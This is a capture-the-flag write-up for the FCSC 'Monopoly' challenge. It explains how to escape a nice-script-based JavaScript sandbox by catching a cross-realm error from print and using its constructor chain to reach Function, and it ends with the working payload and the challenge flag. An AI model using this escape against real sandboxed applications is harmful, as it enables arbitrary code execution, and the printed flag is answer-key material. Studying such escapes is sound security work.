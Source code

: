 # Monopoly

## Description

```
How about a game of Monopoly? I hope you have your "get out of jail free" card ready.
 
https://monopoly.france-cybersecurity-challenge.fr/ 
```

## Solution

This challenge is about a monopoly game, and when you step on the jail cell, you're... sent to jail :

![jail](images/jail.png)

The goal of this challenge is to execute the `alert` function with the content `[GET OUT OF JAIL]`.

To escape this kind of jail, we must, by various means, retrieve an object that has not been declared in the jail but comes from outside, so that its constructor is not rewritten and we can use it to execute the code we want.

We can take a look at the file `jail.js` :

```js
function freezeEveryThing() {

  const asyncFunc = async function () {};
  const asyncGenFunc = async function* () {};
  const genFunc = function* () {};

  Function.prototype.constructor = null;
  Object.defineProperty(asyncFunc.constructor.prototype, "constructor", {
    value: null,
    configurable: false,
    writable: false,
  });
  Object.defineProperty(asyncGenFunc.constructor.prototype, "constructor", {
    value: null,
    configurable: false,
    writable: false,
  });
  Object.defineProperty(genFunc.constructor.prototype, "constructor", {
    value: null,
    configurable: false,
    writable: false,
  });

  Object.defineProperties = null;
  Object.defineProperty = null;
  Object.setPrototypeOf = null;

  Object.freeze(Array);
  Object.freeze(BigInt);
  Object.freeze(Error);
  Object.freeze(Function);
  Object.freeze(Math);
  Object.freeze(Number);
  Object.freeze(Object);
  Object.freeze(Promise);
  Object.freeze(RegExp);
  Object.freeze(String);
  Object.freeze(Symbol);
  Object.freeze(Array.prototype);
  Object.freeze(BigInt.prototype);
  Object.freeze(Error.prototype);
  Object.freeze(Function.prototype);
  Object.freeze(Math.prototype);
  Object.freeze(Number.prototype);
  Object.freeze(Object.prototype);
  Object.freeze(Promise.prototype);
  Object.freeze(RegExp.prototype);
  Object.freeze(String.prototype);
  Object.freeze(Symbol.prototype);

  Object.freeze(asyncFunc.__proto__);
  Object.freeze(asyncGenFunc.__proto__);
  Object.freeze(genFunc.__proto__);
  Object.freeze(asyncGenFunc.__proto__.prototype);
  Object.freeze(genFunc.__proto__.prototype);
}

//[...]

  Function(
    "global",
    `
with(global) {     
    with(proxy) {  
        return (function(){                                               
            "use strict";
            print("[Jail] Started");
            ${code};
        })();
    }
}`
  )(global);

function safeEval(code) {
  try {
    parent.postMessage("[Jail] Powering up", "*");
    if (checkSyntax(code)) {
      const start = Date.now();
      run(code);
      const end = Date.now();
      parent.postMessage(`[Jail] Done (${end - start}ms)`, "*");
    }
  } catch (e) {
    parent.postMessage(`[Jail] Error: ${e}`, "*");
  }
}
```

In the code, we can see the following code that might be injected as we control the `code` variable :

```js
Function(
    "global",
    `
with(global) {     
    with(proxy) {  
        return (function(){                                               
            "use strict";
            print("[Jail] Started");
            ${code};
        })();
    }
}`
  )(global);
```

But in the function `checkSyntax()`, `Function(code)` is called, which means that if we inject `});alert();//`, javascript will crash because this is not valid, so this is a mitigation to this potential bypass.

Since reading this piece of javascript broke my head, I decided to take a break and go on twitter.

![meme](images/meme.jpg)

When I was scrolling, I've seen this tweet from Bitk :

![tweet](images/tweet.png)

But what is nice-script ? Nice-script is, according to the [github repository](https://github.com/PortSwigger/nice-script/), "A JavaScript sandbox using proxies". If we take a look at the issues of this project, we can see that [terjanq](https://twitter.com/terjanq) has created the following issue :

![issue](images/issue.png)

So if we manage to catch an error that came from out of the jail, we will be able to access the constructor of Function and execute the code that we want.

The `print` function looks promising for that :

```js
print: proxyObject(parent.postMessage.bind(parent))
```

This function is used to communicate from the js file to the main window and display a message, this means that, every object passed to this function will be cloned to be displayed, but in javascript, proxy object canno't be cloned, this trigger an error :

![error](images/proxy_error.png)

What's cool here is that the error comes from outside the jail, so by taking over the issue created by terjanq, we can access its constructor via a block try catch :

![constructor](images/constructor.png)

We can therefore use the following code to execute the javascript that we want :

```js
try{
    print(print);
}catch(e){
    e.constructor.constructor('eval("alert(1)")')();
}
```

![alert](images/alert.png)

We just have to change the content of the alert to recover the flag :

```js
try{
    print(print);
}catch(e){
    e.constructor.constructor('eval("alert(\'[GET OUT OF JAIL]\')")')();
}
```

![flag](images/flag.png)

## Flag

FCSC{2fdaccef0afb084f40c4bf38f681262141bcbabfbed0312725f59e40c54edb21}